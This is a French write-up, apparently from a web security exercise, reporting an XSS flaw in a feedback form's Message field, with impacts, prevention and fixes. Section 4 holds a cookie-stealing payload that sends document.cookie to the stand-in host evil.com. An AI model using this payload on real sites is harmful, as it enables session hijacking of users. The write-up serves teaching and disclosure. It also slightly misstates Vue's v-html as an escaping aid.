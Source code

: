 # Injection XSS sur le formulaire de feedback

## 1. Introduction

J'ai découvert une vulnérabilité de type Cross-Site Scripting (XSS) dans le formulaire de feedback du site. Cette faille permet à un attaquant d'injecter du code malveillant dans le champ "Message", ce qui pourrait être utilisé pour exécuter du JavaScript non autorisé dans le navigateur des utilisateurs visitant la page.

## 2. Comment j'ai trouvé la faille

Sur la page de feedback, j'ai saisi le texte suivant dans le champ "Message" :
```bash
alert
```

Après avoir soumis le formulaire, l'alerte s'est exécutée, ce qui prouve que l'entrée utilisateur n'est pas correctement filtrée ou échappée côté serveur et côté client.

![Injection](./images/1.png)

## 3. Impact de la faille

Cette vulnérabilité peut avoir plusieurs conséquences graves :

Vol de cookies : Un attaquant peut voler les cookies de session des utilisateurs.

Redirection malveillante : Les utilisateurs peuvent être redirigés vers des sites malveillants.

Défiguration du site : Le contenu de la page peut être modifié pour afficher des informations fausses ou offensantes.

Vol d'identifiants : Avec un script de phishing, un attaquant peut voler des identifiants de connexion.

## 4. Exploitation de la faille

Pour exploiter cette faille, un attaquant pourrait injecter un script malveillant comme :
```bash
<script>document.location='https://evil.com?cookie='+document.cookie;</script>
```

Cela redirigerait l'utilisateur vers un site malveillant en envoyant ses cookies de session à l'attaquant.

## 5. Comment prévenir cette faille

Pour empêcher cette injection XSS, il faut :

- **Échapper toutes les entrées utilisateur** : Utiliser des fonctions comme htmlspecialchars() en PHP ou v-html en Vue.js avec précaution.

- **Valider les entrées utilisateur** : Ne pas autoriser les balises HTML dans les champs de texte.

- Configurer des en-têtes de sécurité : Ajouter un Content Security Policy (CSP) pour limiter l'exécution de scripts non approuvés.

### Exemple de Content Security Policy
```bash
Content-Security-Policy: default-src 'self'; script-src 'self';
```

## 6. Comment corriger la faille

Pour corriger cette faille :

- **Échapper les sorties utilisateur** : En PHP, utiliser htmlspecialchars() pour afficher les données en toute sécurité.

- **Nettoyer les entrées utilisateur** : Filtrer les balises HTML avec des bibliothèques comme DOMPurify en JavaScript.

- **Mettre à jour les librairies et frameworks** pour bénéficier des derniers patchs de sécurité.

## 7. Conclusion

J'ai identifié une faille XSS dans le champ "Message" du formulaire de feedback. Cette vulnérabilité permet l'exécution de scripts malveillants dans le navigateur de l'utilisateur. Pour corriger cette faille, j'ai proposé des méthodes de validation et d'échappement des entrées, ainsi que l'ajout d'une politique de sécurité des contenus (CSP).